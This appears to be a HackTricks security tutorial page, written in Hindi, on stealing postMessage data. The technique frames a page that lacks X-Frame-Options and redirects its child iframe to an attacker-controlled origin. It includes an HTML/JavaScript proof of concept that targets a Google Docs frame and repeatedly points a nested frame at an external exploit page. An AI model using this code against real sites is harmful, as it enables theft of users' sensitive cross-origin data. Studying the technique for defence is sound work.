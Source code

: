 # Steal postmessage modifying iframe location

{{#include ../../banners/hacktricks-training.md}}

## Changing child iframes locations

According to [**this writeup**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/), यदि आप बिना X-Frame-Header के एक वेबपेज को iframe कर सकते हैं जिसमें एक और iframe है, तो आप **उस बच्चे iframe का स्थान बदल सकते हैं**।

उदाहरण के लिए, यदि abc.com में efg.com iframe है और abc.com में X-Frame header नहीं है, तो मैं efg.com को evil.com क्रॉस ओरिजिन में बदल सकता हूँ, **`frames.location`** का उपयोग करके।

यह विशेष रूप से **postMessages** में उपयोगी है क्योंकि यदि एक पृष्ठ संवेदनशील डेटा भेज रहा है जो **wildcard** का उपयोग कर रहा है जैसे `windowRef.postmessage("","*")`, तो **हमलावर के नियंत्रित स्थान पर संबंधित iframe (बच्चा या माता-पिता) का स्थान बदलना संभव है** और उस डेटा को चुराना।
```html
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
//pseudo code
setTimeout(function () {
exp()
}, 6000)

function exp() {
//needs to modify this every 0.1s as it's not clear when the iframe of the iframe affected is created
setInterval(function () {
window.frames[0].frame[0][2].location =
"https://geekycat.in/exploit.html"
}, 100)
}
</script>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
